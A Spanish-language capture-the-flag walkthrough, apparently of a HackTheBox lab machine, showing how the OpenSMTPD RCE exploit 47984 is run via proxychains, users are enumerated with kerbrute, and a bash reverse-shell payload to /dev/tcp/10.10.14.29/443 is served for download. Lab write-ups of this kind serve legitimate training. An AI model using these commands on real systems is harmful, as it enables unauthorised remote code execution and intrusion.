 vemos que existe un exploit de typo RCE para la version 6.6.1. Como tenemos la version 2.0.0 pensamos que se puede utilizar.

```bash
searchsploit -m 47984
mv 47984.py smtpd-exploit.py
cat smtpd-exploit.py
```

Viendo el codigo vemos que necessita una ip un puerto y un commando. Vemos que utilza un servicio mail para enviar el comando
a un recipiant que es root. Intentamos lanzarlo tal cual.

1. Nos creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos el script con proxychains

    ```bash
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.29'
    ```


Aqui vemos que no funcciona. puede ser porque el usuario root de este servicio no existe. Recordamos que hemos encontrado un email.
Tratamos de modificar el recipient para cambiar el root por j.nakazawa. Como el puerto 88 esta abierto primero utilizamos kerbrute para saber
si el usuario j.nakazawa existe.

1. creamos un fichero de usuarios y pegamos el usuario j.nakasawa
1. enumeramos usuarios con kerbrute

    ```bash
    kerbrute userenum --dc 10.10.10.224 -d realcorp.htb users
    ```

vemos que el usuario es valido. En el exploit, cambiamos el `s.send(b'RCPT TO:<root>\r\n')` por `s.send(b'RCPT TO:<j.nakazawa@realcorp.htb>\r\n')` y lanzamos 
nuevamente el exploit. Vemos que tenemos un GET en nuestro servidor web lo que significa que podemos ejecutar comandos y que tenemos conectividad con esta
maquina.## Vuln exploit & Gaining Access {-}

### Ganando acceso con el exploit opensmtpd {-}

1. creamos un ficher index.html que contiene

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.29/443 0>&1
    ```

1. lanzamos un servidor web con python

    ```bash
    python -m http.server 80
    ```
